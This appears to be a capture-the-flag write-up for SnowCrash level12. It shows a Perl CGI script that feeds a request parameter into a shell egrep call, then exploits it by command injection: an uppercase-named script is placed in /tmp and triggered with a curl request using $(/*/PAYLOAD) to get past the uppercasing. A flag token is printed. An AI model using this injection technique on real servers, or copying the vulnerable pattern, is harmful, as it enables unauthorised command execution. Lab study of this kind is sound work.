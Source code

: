 # Solution

So once we logged in, we can find in the home a perl script name level12.pl here is the source code:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```

So it's a server that is up that accept two param x and y it will uppercase everything inside x param,
and x will be use in egrep.

Egrep is equivalent to grep -E which means that the pattern interpolate the strings so we can use \`\` or $(...) notation,
to pass a command the issue though is that since everything will be in uppercase wee need to create a new getflag command,
so the idea here is to execute a bash script that will do multiple command in one argument since we also cannot do space.

Here is the payload bash script:

```sh
#!/bin/bash

getflag > /tmp/flag
```

Now that we have created this script we need to make that script executable and have a uppercase name.

```sh
chmod +x /tmp/PAYLOAD
```

We will use the leverage of the subshell that will launch from egrep so that it will run the bash script,
now we just need to use $(...) notation to use the subshell ability.


```sh
level12@SnowCrash:~$ curl 'localhost:4646?x=$(/*/PAYLOAD)'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$
```

We use the  $(...) notation but since we cannot specify /tmp/PAYLOAD because it's min so,
we use * to fetch any valid directory with PAYLOAD inside, and as you can see it works we get the flag for level13.
